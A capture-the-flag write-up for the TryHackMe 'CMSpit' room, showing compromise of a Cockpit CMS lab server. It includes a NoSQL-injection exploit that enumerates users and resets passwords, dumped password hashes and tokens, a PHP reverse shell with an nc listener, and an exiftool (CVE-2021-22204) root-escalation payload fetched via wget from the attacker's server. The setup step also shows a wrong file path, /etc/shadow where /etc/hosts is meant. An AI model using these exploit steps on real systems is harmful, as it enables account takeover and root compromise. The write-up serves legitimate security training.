



---

Name: CMSpit
Difficulty: Medium
URL: https://tryhackme.com/room/cmspit

---

# 0. Setup
We start by adding the ip address to /etc/hosts so we can access the website with cms.thm
```bash
nvim /etc/shadow

10.113.170.1 cms.thm
```

Starting the vpn
```bash
openvpn try_hack_me.ovpn
```

Lastly, checking the connectivity
```bash
ping cms.thm -c 4

PING cms.thm (10.113.170.1) 56(84) bytes of data.
64 bytes from cms.thm (10.113.170.1): icmp_seq=1 ttl=62 time=49.7 ms
64 bytes from cms.thm (10.113.170.1): icmp_seq=2 ttl=62 time=50.1 ms
64 bytes from cms.thm (10.113.170.1): icmp_seq=3 ttl=62 time=49.1 ms
64 bytes from cms.thm (10.113.170.1): icmp_seq=4 ttl=62 time=44.3 ms

--- cms.thm ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 44.268/48.301/50.130/2.360 ms
```

# 1. Solution
## What is the name of the Content Management System (CMS) installed on the server?
We see from the login page that it uses cockpit



## What is the version of the Content Management System (CMS) installed on the server?
Looking in the page source I found this ver parameter with the value 0.11.1
```html
    <link href="/assets/app/css/style.css?ver=0.11.1" type="text/css" rel="stylesheet">
```

## What is the path that allow user enumeration?
/auth/check

## How many users can you identify when you reproduce the user enumeration attack?
Found this exploit https://www.exploit-db.com/exploits/50185 and used it to find information about the users
```bash
python3 exploit.py -u "http://cms.thm"
[+] http://cms.thm: is reachable
[-] Attempting Username Enumeration (CVE-2020-35846) :

[+] Users Found : ['admin', 'darkStar7471', 'skidy', 'ekoparty']
```

## What is the path that allows you to change user account passwords?
Looking in the exploit we find it in this function
```python
def reset_tokens(url):
    print("[+] Finding Password reset tokens")
    url = url + "/auth/resetpassword"
    headers = {
        "Content-Type": "application/json"
        }
    data= {"token":{"$func":"var_dump"}}
    req = requests.post(url, data=json.dumps(data), headers=headers)
    pattern=re.compile(r'string\(\d{1,2}\)\s*"([\w-]+)"', re.I)
    matches = pattern.findall(req.content.decode('utf-8'))
    if matches:
        print ("\t Tokens Found : " + str(matches))
        return matches
    else:
        print("No tokens found, ")
```

## Compromise the Content Management System (CMS). What is Skidy's email.
Using the same exploit we find his email address and change his password
```bash
python3 exploit.py -u "http://cms.thm"
[+] http://cms.thm: is reachable
[-] Attempting Username Enumeration (CVE-2020-35846) :

[+] Users Found : ['admin', 'darkStar7471', 'skidy', 'ekoparty']

[-] Get user details For : skidy
[+] Finding Password reset tokens
         Tokens Found : ['rp-8a89d4f5de529d67db633a43269f8fd86a5510bce3812', 'rp-cdeea689c51cce7c5c743836caf401c26a5511042a64a']
[+] Obtaining user information
-----------------Details--------------------
         [*] user : admin
         [*] name : Admin
         [*] email : admin@yourdomain.de
         [*] active : True
         [*] group : admin
         [*] password : $2y$10$dChrF2KNbWuib/5lW1ePiegKYSxHeqWwrVC.FN5kyqhIsIdbtnOjq
         [*] i18n : en
         [*] _created : 1621655201
         [*] _modified : 1621655201
         [*] _id : 60a87ea165343539ee000300
         [*] _reset_token : rp-8a89d4f5de529d67db633a43269f8fd86a5510bce3812
         [*] md5email : a11eea8bf873a483db461bb169beccec
--------------------------------------------
-----------------Details--------------------
         [*] user : skidy
         [*] email : skidy@tryhackme.fakemail
         [*] active : True
         [*] group : admin
         [*] i18n : en
         [*] api_key : account-21ca3cfc400e3e565cfcb0e3f6b96d
         [*] password : $2y$10$uiZPeUQNErlnYxbI5PsnLurWgvhOCW2LbPovpL05XTWY.jCUave6S
         [*] name : Skidy
         [*] _modified : 1621719311
         [*] _created : 1621719311
         [*] _id : 60a9790f393037a2e400006a
         [*] _reset_token : rp-cdeea689c51cce7c5c743836caf401c26a5511042a64a
         [*] md5email : 5dfac21f8549f298b8ee60e4b90c0e66
--------------------------------------------


[+] Do you want to reset the passowrd for skidy? (Y/n):
[-] Attempting to reset skidy's password:
[+] Password Updated Succesfully!
[+] The New credentials for skidy is:
         Username : skidy
         Password : x,@CRU0c&'

```

## What is the web flag?
Going to http://cms.thm/finder we find the file that contains the flag



## Compromise the machine and enumerate collections in the document database installed in the server. What is the flag in the database?
Since we can upload files as admin, we will put a php reverse shell, generated with https://www.revshells.com/



Start a listener
```bash
nc -lvnp 4444
```

Finally, going to http://cms.thm/shell.php gives us the shell

Searching on the internet we find that the database is stored in /cockpit/storage/data, (https://getcockpit.com/documentation/guides/using-cockpit-as-library)
```bash
your-project/
|-- cockpit/                 # Cockpit CMS installation
|   |-- bootstrap.php        # Cockpit bootstrap file
|   |-- modules/             # Core modules
|   `-- addons/              # Additional addons
|-- config/
|   `-- config.php           # Your Cockpit configuration
|-- storage/                 # Data storage directory
|   |-- data/                # Database files
|   |-- cache/               # Cache files
|   `-- uploads/             # Uploaded assets
`-- your-app.php             # Your application
```
So we go there
```bash
$ ls
cockpit.memory.sqlite
cockpit.sqlite
cockpitdb.sqlite
index.html
$ cat cockpit.sqlite
SQLite format 3@  C-�
�@�g
~))�7tableassets_foldersassets_folderCREATE TABLE `assets_folders` ( id INTEGER PRIMARY KEY AUTOINCREMENT, document TEXT )f�'tableassetsassetsCREATE TABLE `assets` ( id INTEGER PRIMARY KEY AUTOINCREMENT, document TEXT )r!!�/tablejobs_queuejobs_queueCREATE TABLE `jobs_queue` ( id INTEGER PRIMARY KEY AUTOINCREMENT, document TEXT )i)tableoptionsoptionsCREATE TABLE `options` ( id INTEGER PRIMARY KEY AUTOINCREMENT, document TEXT )l�+tableaccountsaccountsCREATE TABLE `accounts` ( id INTEGER PRIMARY KEY AUTOINCREMENT, document TEXT )P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)l�+tablewebhookswebhooksCREATE ��BLE `webhooks` ( id INTEGER PRIMARY KEY AUTOINCREMENT, document TEXT )
  accounts
m
mv      ��P�%{"user":"skidy","email":"skidy@tryhackme.fakemail","active":true,"group":"admin","i18n":"en","api_key":"account-21ca3cfc400e3e565cfcb0e3f6b96d","password":"$2y$10$9p0JlUlE0hx64Uv8Icyom.QbdT1iz\/w6jan.6Txaxc0CQGW5ckjom","name":"Skidy","_modified":1621719311,"_created":1621719311,"_id":"60a9790f393037a2e400006a","_reset_token":null}�E�{"user":"ekoparty","email":"ekoparty@tryhackme.fakemail","active":true,"group":"admin","i18n":"en","api_key":"account-c06006d6bf8227d107a500ee1625e3","password":"$2y$10$Cz5whXg.dzlI4t8upxw9GulhqVbt0hNVE8trz5aB2pReye5\/qW8BW","name":"Ekoparty","_modified":1621719688,"_created":1621719688,"_id":"60a97a883163330a2200023e"}�n��5{"user":"admin","name":"Admin","email":"admin@yourdomain.de","active":true,"group":"admin","password":"$2y$10$mOk67rXq4FFnGgrdi\/DKOeC4463tYy1rvUjnRj97zJQJ3cv1ZvIc6","i18n":"en","_created":1621655201,"_modified":1621655201,"_id":"60a87ea165343539ee000300","_reset_token":null}�Q�'{"user":"darkStar7471","email":"darkstar7471@tryhackme.fakemail","active":true,"group":"admin","i18n":"en","api_key":"account-3bdaf7b838bd37df042918c00fb528","name":"darkStar7471","password":"$2y$10$uAm8IylkDFQviO\/CbzP4duOqKCFCFZTiv2x7JSdm2UWyr9TJUX86e","_modified":1621657994,"_created":1621657994,"_id":"60a8898b6565354b19000323"}
$ ls
cockpit.memory.sqlite
cockpit.sqlite
cockpitdb.sqlite
index.html
$ cat cockpitdb.sqlite
C�CP++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)i)tablecockpitcockpitCREATE TABLE `cockpit` ( id INTEGER PRIMARY KEY AUTOINCREME$ , document TEXT )

```

I realised I was on the wrong path, sqlite3 was not installed on the machine so I looked inside the Dockerfile, looks like it is using mongodb
```bash
www-data@ubuntu:/var/www/html/cockpit$ cat Dockerfile
cat Dockerfile
FROM php:7-apache

RUN apt-get update \
    && apt-get install -y \
		wget zip unzip \
        libzip-dev \
        libfreetype6-dev \
        libjpeg62-turbo-dev \
        libpng-dev \
        sqlite3 libsqlite3-dev \
        libssl-dev \
    && pecl install mongodb \
    && pecl install redis \
    && docker-php-ext-configure gd --with-freetype=/usr/include/ --with-jpeg=/usr/include/ \
    && docker-php-ext-install -j$(nproc) iconv gd pdo zip opcache pdo_sqlite \
    && a2enmod rewrite expires

RUN echo "extension=mongodb.so" > /usr/local/etc/php/conf.d/mongodb.ini
RUN echo "extension=redis.so" > /usr/local/etc/php/conf.d/redis.ini

RUN chown -R www-data:www-data /var/www/html

VOLUME /var/www/html

CMD ["apache2-foreground"]
```

Let's find the mongodb process
```bash
www-data@ubuntu:/var/www/html/cockpit$ ps aux | grep mongo
mongodb    584  0.3  0.3 554216  3760 ?        Ssl  09:08   0:08 /usr/bin/mongod --config /etc/mongodb.conf
www-data  1179  0.0  0.0  11284   828 pts/0    S+   09:47   0:00 grep mongo
```

Now let's view the databases, collections and get the flag. While we are at it, let's also the password for stux
```bash
www-data@ubuntu:/var/www/html/cockpit$ mongo
mongo
MongoDB shell version: 2.6.10
connecting to: test
Welcome to the MongoDB shell.
For interactive help, type "help".
For more comprehensive documentation, see
	http://docs.mongodb.org/
Questions? Try the support group
	http://groups.google.com/group/mongodb-user
2026-07-13T09:47:58.877-0700 In File::open(), ::open for '' failed with errno:2 No such file or directory
> show dbs
shshow dbs
admin         (empty)
local         0.078GB
sudousersbak  0.078GB
> use sudousersbak
ususe sudousersbak
switched to db sudousersbak
> show collections
shshow collections
flag
system.indexes
user
> db.flag.find()
dbdb.flag.find()
{ "_id" : ObjectId("60a89f3aaadffb0ea68915fb"), "name" : "thm{REDACTED}" }
> db.user.find()
dbdb.user.find()
{ "_id" : ObjectId("60a89d0caadffb0ea68915f9"), "name" : "p4ssw0rdhack3d!123" }
{ "_id" : ObjectId("60a89dfbaadffb0ea68915fa"), "name" : "stux" }

```

## What is the user.txt flag?
With the credentials found we become stux
```bash
www-data@ubuntu:/var/www/html/cockpit$ su stux
Password: p4ssw0rdhack3d!123

stux@ubuntu:/var/www/html/cockpit$ 
```

Then we read the flag

```bash
stux@ubuntu:~$ cat user.txt
thm{REDACTED}
```

## What is the CVE number for the vulnerability affecting the binary assigned to the system user? Answer format: CVE-0000-0000
We run sudo -l to find out what binaries we can run with sudo
```bash
stux@ubuntu:~$ sudo -l
sudo -l
Matching Defaults entries for stux on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User stux may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/local/bin/exiftool
```

Searching the internet for exiftool CVE we find CVE-2021-22204, (https://www.sentinelone.com/vulnerability-database/cve-2021-22204/)

## What is the utility used to create the PoC file?
We find it in this PoC https://offsec.pentest.tools/exploit/linux/privilege-escalation/sudo/sudo-exiftool-privilege-escalation/
```bash
djvumake
```

## Escalate your privileges. What is the flag in root.txt?
Following the steps in the PoC we create the payload
```bash
cat > payload << 'EOF'
(metadata "\c${system('/bin/bash')};")
EOF
```

Compress it
```bash
bzz payload payload.bzz
```

Create the malicious djvu file
```bash
djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
```

Get it on the machine with a python server
```bash
python3 -m http.server
```
```bash
wget http://ip:8000/exploit.djvu
```

Run it
```bash
sudo /usr/local/bin/exiftool exploit.djvu
```

Now we have root, and can read the flag
```bash
root@ubuntu:~# cat /root/root.txt
thm{REDACTED}
```
